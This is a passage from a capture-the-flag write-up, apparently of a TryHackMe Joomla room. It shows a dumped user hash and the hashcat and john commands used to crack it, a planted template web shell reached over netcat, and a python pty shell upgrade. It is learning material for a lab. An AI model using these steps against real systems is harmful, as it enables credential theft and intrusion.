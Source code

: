 ```

- Found table: fb9j5_users
- Extracting users from fb9j5_users
  [$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
- Extracting sessions from fb9j5_session
```

we get jonah creds but pass is hashed

lets identify the hash

```
$haiti '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm'
bcrypt [HC: 3200] [JtR: bcrypt]
Blowfish(OpenBSD) [HC: 3200] [JtR: bcrypt]
Woltlab Burning Board 4.x
```

BCRYPT??? Oh lord this is why its a hard room

Its gonna take years for me

```
hashcat -a 0 -m 3200 '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm' /usr/share/wordlists/rockyou.txt
```

By God this is painful...I hash at 13H/s...I can't go through rockyou with that...the machine only lasts 1 hour for me (free)

Even with john its slow and takes forever`

```
$john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
0g 0:00:01:13 0,02% (ETA: 2021-11-15 23:37) 0g/s 38.93p/s 38.93c/s 38.93C/s skater1..firefly
```

ETA is in 5 days!! 5 fricking daaays XD

I had to look for a writeup that had the answer (close it after you get the pass to limit spoilers)

`jonah : spiderman123`

We use those at administrator page and login

immediately look for extensions, plugins or templates pages for uploads or custom code possibilty

in extensions/templates there are 2 templates we can customize

we cant upload directly so we have to modify a page or create one

I created `shell.php` (what a discrete name)

my activation subdir is `/templates/beez3/shell.php`

I visit that and get access on netcat

ugly shell evolves into better TTY

```
sh-4.2$ python -c 'import pty; pty.spawn("/bin/bash")'
python -c 'import pty; pty.spawn("/bin/bash")'
bash-4.2$
```
